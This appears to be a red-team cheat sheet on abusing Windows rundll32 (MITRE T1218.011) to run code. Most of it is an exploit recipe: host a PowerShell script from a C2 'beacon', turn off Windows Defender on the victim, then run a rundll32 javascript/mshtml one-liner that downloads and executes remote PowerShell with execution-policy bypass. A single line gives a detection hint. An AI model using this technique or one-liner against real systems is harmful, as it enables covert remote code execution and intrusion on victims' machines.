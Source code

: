 # [Rundll32](https://attack.mitre.org/techniques/T1218/011/)

## Exploit syntax:

1. Create a powershell script and save it to /tmp/christBeaver.txt

2. In posh run:
    ```
    add-hosted-file
    
    /tmp/christBeaver.txt

    /text

    text/html
    
    N
    ```

3. Ensure Windows Defender Live Protection is turned off on the victim machine

4. On your beacon, add the malicious IP and run:
    ```
    sharpps rundll32.exe 'javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString(''http://<IP address>/text'');")'
    ```

## Detection Technique:
* Investigate uses of rundll32 to start non typical processes such as cmd/powershell or to access non typical dlls.

---

## Resource
* https://lolbas-project.github.io/lolbas/Binaries/Rundll32/1`